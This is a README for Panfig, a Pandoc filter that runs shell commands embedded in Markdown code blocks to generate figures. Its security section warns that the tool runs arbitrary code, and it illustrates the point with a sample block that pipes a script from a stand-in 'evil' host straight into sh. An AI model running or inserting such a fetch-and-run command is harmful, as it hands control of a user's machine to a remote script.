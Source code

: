 Pandoc Figure Framework
=======================

This library lets you write self-contained Pandoc/Markdown files that contain figures.

Without Panfig, if you want figures, you have to save the image files, and the scripts that generate them, alongside the document. You'd probably even have a Make system to ensure that all the figures were up to date. What a hassle!

With Panfig, the document stands alone. It describes how to generate the images, and they're generated when the document is compiled to HTML (or whatever).

For example, this Markdown code:

    Here is a very simple FSM: the "on-off automaton."

    ~~~~~~~~ {.panfig shell="dot -Tpng -o {path}"}
      digraph G {
        on [style=filled];
        on -> off;
        off -> on;
      }
    ~~~~~~~~

generates this HTML:

> Here is a very simple FSM: the "on-off automaton."
>
> ~~~~~~~~ {.panfig shell="dot -Tpng -o {path}"}
>   digraph G {
>     on [style=filled];
>     on -> off;
>     off -> on;
>   }
> ~~~~~~~~



Security: for God's sake, be careful.
-------------------------------------

I am putting this here because you should care.
**Panfig executes arbitrary code contained in the document being compiled. If you invoked Pandoc (+Panfig) on the following document, it would own your computer.**


    ~~~~~~~~ { .panfig sh="curl http://example.com/evil_exploit.sh | sh"}
    ~~~~~~~~


How do I use it?
----------------

In general terms: where you want a figure, you write a code block that describes how to generate an image file. Then you compile the document with `pandoc --filter panfig ...`, and Panfig will generate the image and replace the code block with it.

More specifically: to make a figure, you use Pandoc/Markdown's fenced-code-block syntax to designate a code block as a Panfig block, by giving it the `.panfig` class, and also specifying a shell command that generates the image, like so:

    ~~~~~~~~ { .panfig shell="dot -Tpdf -o {path}" }
      digraph G {
        on -> off;
        off -> on;
      }
    ~~~~~~~~

The `sh` attribute, as you see, is a shell command. The contents of the block are piped to its standard input.


### Aliases

If you get tired of writing the same command over and over, you can use aliases to make things more concise. For example:

- Without aliases:

        ~~~~~~~~ { .panfig shell="(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}" }
          Plot[Sin[x], {x, 0, 2*Pi}]
        ~~~~~~~~

- With aliases:

        ~~~~~~~~ { .panfig-aliases }
        {"mma": {"shell": "(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}"}}
        ~~~~~~~~

        ~~~~~~~~ { .panfig alias=mma }
          Plot[Sin[x], {x, 0, 2*Pi}]
        ~~~~~~~~
